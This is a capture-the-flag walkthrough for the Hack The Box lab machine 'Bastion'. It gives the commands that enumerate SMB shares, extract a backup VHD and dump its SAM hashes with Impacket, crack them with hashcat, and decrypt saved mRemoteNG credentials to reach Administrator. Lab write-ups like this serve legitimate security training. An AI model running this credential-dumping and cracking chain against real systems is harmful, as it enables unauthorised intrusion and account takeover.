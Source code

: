 # Bastion HTB Walkthrough

## Target Information
- **IP Address**: 10.10.10.134
- **Hostname**: bastion.htb
- **OS**: Windows Server 2016 Standard 14393

---

## 🛠 Initial Setup & Reconnaissance

### 🎯 Environment Preparation
1. Store target IP for automation:
```bash
echo "10.10.10.134" > target
```

2. Add DNS resolution to hosts file:
```bash
echo "10.10.10.134 bastion.htb" | sudo tee -a /etc/hosts
```

---

## 🔍 Network Enumeration

### Port Discovery
Performed full TCP port scan:
```bash
nmap -p- -iL target -v -oN nmap/tcp_ports_scan.txt
```

**Findings**:
```
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664-49670/tcp open  msrpc
```

### Service Enumeration
Aggressive scan on open ports:
```bash
ports=$(awk -F '/' 'NR>=6 && NR<=18 {print $1}' nmap/tcp_ports_scan.txt | paste -sd ',')
nmap -p$ports -sCV -oA nmap/service_scan -iL target
```

**Key Findings**:
- SMB (445/tcp): Windows Server 2016 Standard
- WinRM (5985/47001): Potential remote management access
- SSH (22/tcp): OpenSSH for Windows 7.9

---

## 📁 SMB Exploitation

### Share Enumeration
List available SMB shares:
```bash
smbclient -L \\\\bastion.htb\\ -N
```

**Discovered Shares**:

![image](https://github.com/user-attachments/assets/ce65f502-3ed9-4113-bab3-5894284dfaca)

### Accessing Backups Share
Anonymous access to Backups share:
```bash
smbclient \\\\bastion.htb\\Backups -N
```

**Discovered Files**:
- 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd (System Boot)
- 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd (User Data)

### Mounting Virtual Hard Disks
1. Mount SMB share:
```bash
mkdir /mnt/backups
mount -t cifs //bastion.htb/Backups /mnt/backups -o ro,vers=2.1
```

3. Extract and mount VHD (if you got an error, try to list on it anyway):
```bash
mkdir /tmp/vhd
7z x /mnt/backups/9b9cfbc4-*.vhd -o/tmp/vhd
```

### Credential Extraction
Dump SAM database using Impacket:
```bash
impacket-secretsdump -sam /tmp/vhd/Windows/System32/config/SAM \
                     -system /tmp/vhd/Windows/System32/config/SYSTEM LOCAL
```

**Extracted Hashes**:
```
Administrator:500:aad3b... 
L4mpje:1000:aad3b... 
```

### Password Cracking
Crack NTLM hashes with Hashcat:
```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

### Initial Access

#### SSH Connection
Authenticate with obtained credentials:
```bash
ssh L4mpje@bastion.htb
```

You'll got the user flag.

## Resources

* This is another interesting way to mount vhd files: [Mounting VHD file on Kali Linux through remote share](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)

---

## ⚙️ Privilege Escalation

**mRemoteNG Credential Extraction**

1. Found [mRemoteNG](https://mremoteng.org/) installed in:
```shell
C:\Program Files (x86)\
```

![Screenshot from 2025-04-13 11-44-43](https://github.com/user-attachments/assets/2d9c9075-9bd5-45d9-b7d0-281d6aa26a2e)

2. Config file with saved credentials:
```shell
C:\Users\<User>\AppData\Roaming\mRemoteNG\confCons.xml
```

![Screenshot from 2025-04-13 11-45-57](https://github.com/user-attachments/assets/3b5cf8f9-6d7d-4336-bbce-cde11edeee8c)

3. Base64 encoded password was found in the file.

4. Decrypt password using the Python tool [mRemoteNG Decrypt](https://github.com/kmahyyg/mRemoteNG-Decrypt):

```bash
git clone https://github.com/kmahyyg/mremoteng-decrypt.git
cd mremoteng-decrypt
python3 mremoteng_decrypt.py -s <Base64 string>
```

5. Logged in as Administrator using decrypted credentials.

### Resources

* [mRemoteNG](https://mremoteng.org/)
* [GitHub - mRemoteNG](https://github.com/mRemoteNG/mRemoteNG)
* [GitHub - mRemoteNG Decrypt](https://github.com/kmahyyg/mRemoteNG-Decrypt)

---

## 🏁 Summary

* ✅ Initial access: SMB share > VHD > Password hash dump > SSH login
* 🔐 Privilege escalation: Extract mRemoteNG creds > Decrypt > Admin access

---
